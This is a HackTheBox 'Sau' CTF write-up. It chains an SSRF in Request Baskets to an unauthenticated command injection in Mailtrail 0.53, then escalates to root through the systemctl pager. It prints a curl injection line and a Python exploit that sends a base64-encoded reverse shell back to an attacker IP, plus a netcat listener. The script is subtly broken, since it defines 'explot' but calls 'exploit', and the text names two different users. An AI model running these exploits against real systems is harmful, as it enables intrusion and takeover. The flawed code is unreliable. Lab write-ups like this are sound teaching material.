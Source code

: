 ```yaml
---
title: Sau Writeup - HackTheBox
date: 2023-12-29
categories:
  - Writeups
  - HTB
tags:
  - Linux
  - HTB
  - CTF
  - Easy
img_path: /assets/img/commons/sau/
image: sau.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** [**Sau**](https://app.hackthebox.com/machines/551) machine.
It is a **Linux** machine on which we will carry out a **SSRF attack** that will allow us to access an HTTP service that was filtered. After that, we will take advantage of the possibility of doing **RCE** and we will be able to get a **Reverse Shell** and we will have gained access to the system.
Then, we will proceed to do a **Privilege Escalation** using the **systemctl pager** in order to own the system.


Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active.

```bash
> ping -c 1 10.10.11.224
PING 10.10.11.224 (10.10.11.224) 56(84) bytes of data.
64 bytes from 10.10.11.224: icmp_seq=1 ttl=63 time=1928 ms

--- 10.10.11.224 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1927.639/1927.639/1927.639/0.000 ms
```

## Port scaning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv  -n -Pn 10.10.11.224

Nmap scan report for 10.10.11.224
Host is up, received conn-refused (0.048s latency).
Scanned at 2023-12-31 12:50:26 EST for 2s
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack
80/tcp    filtered http    no-response
55555/tcp open     unknown syn-ack
```

After the port enumeration, we can see that we cannot access port 80 (because it is filtered) or port 22 (because we don't have credentials to access via SSH). We try to access `10.10.11.224:55555` in the browser: 

![home](home.png)

As we can see, the version of the web service **Request Baskets** running is 1.2.1.


## Exploitation
---

Searching for information on the internet, we found that the web service **Request Baskets** which is running on the server is vulnerable to the SSRF (Server Side Request Forgery) attack.

### How does the SSRF vulnerability work here
Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as "baskets". During the creation of these baskets, users have flexibility to specify alternative servers to which these requests should be forwarded. The critical issue here lies in the fact that users can inadvertently specify services they shouldn't have access to, including those typically restricted within a network environment.

For example, in this machine where the server hosts Requests-Baskets on port 55555 and simultaneously runs an HTTP application on port 80. The HTTP server is configured to exclusively interact with allowed users. In this context, we can exploit the SSRF vulnerability by creating a basket that forwards requests to `http://localhost:80`, effectively bypassing the previous network restrictions and gaining access to the HTTP server, which should have been restricted to us.


### Exploiting the SSRF vulnerability
First, let's create a request basket and adjust its settings as following:

![basket_config](basket_config.png)

1. `insecure_tls` set to **true** will bypass certificate verification
2. `proxy_response` set to **true** will send response of the forwarded server back to our client
3. `expand_path` set to **true** makes `forward_url` path **expanded** when original `http request` contains **compound** path.

Second, comes the moment of truth. Let's find out what lurks inside our Port **80** by visiting our bucket **url**.

![http_home](http_home.png)


## Information gathering
---
Now, we know the service running on port **80** is **Mailtrail** of version **0.53**.

After some research, we found that the running version of mailtrail is vulnerable to an **Unathenticated OS Command Injection (RCE)**.

We can do some tests from the terminal using `curl`:

```bash
curl 'http://10.10.11.224:55555/b9xkp4b/login' --data 'username=;`id > /tmp/bbq`'
```

### Obtaining a Reverse Shell
Although we can run commands with `curl`, we are going to use the following python script to get a reverse shell:

```python
import sys
import os
import base64

# Arguments
YOUR_IP = sys.argv[1]
YOUR_PORT = sys.argv[2]
TARGET_URL = sys.argv[3]

print("\n[+] Started MailTrail version 0.53 Exploit")

# Fail-safe for arguments
if len(sys.argv) != 4:
	print("Usage: python3 mailtrail.py <your_ip> <your_port> <target_url>")
	sys.exit(-1)

# Exploit the vulnerability
def explot(my_ip, my_port, target_url):
	# Defining python3 reverse shell payload
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

	# Encoding the payload
	encoded_payload = base64.b64encode(payload.encode()).decode()

	# curl command that is going to be executed
	command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"

	# Executing the curl command
	os.system(command)

print("\n[+] Exploiting MailTrail on {}".format(str(TARGET_URL)))
try:
	exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
	print("\n[+] Successfully exploited!")
	print("\n[+] Check your reverse shell listener")
except:
	print("\n[!] An error has occured. Try again!")
```

We put `netcat` in listening:

```bash
nc -lnvp 443
```

And we are in!

![reverse shell](rev_shell.png)


### Obtaining the user flag
Once we are in, we can get the user flag:

```bash
cd ~
ls
# We see 2 files: peas.txt user.txt
cat user.txt
```


## Privilege escalation
---
Now that we have user access to the system, let's look at how we can escalate privileges.

We start by looking for which processes are running with sudo permissions and, in addition, are visible to the user logan. We execute the command:

```bash
sudo -l
```

After running it, we can see that the user puma has sudo access to the **systemctl status trail.service** command.

Interesting thing here is that we are using `systemctl` binary. And, in case you didn't know, If we can execute `systemctl status` as **root**, we can spawn another shell in the pager with **root** privileges.

Execute the command:

```bash
systemctl status trail.service
```

And, once inside `less` interface, execute `!sh` command and pop yourself **root** shell.

![root_shell](root_shell.png)

Finally, we have access as superuser, we have the whole system committed and (of course) we can now obtain the root flag of the machine.

> H4Ppy H4ck1ng!
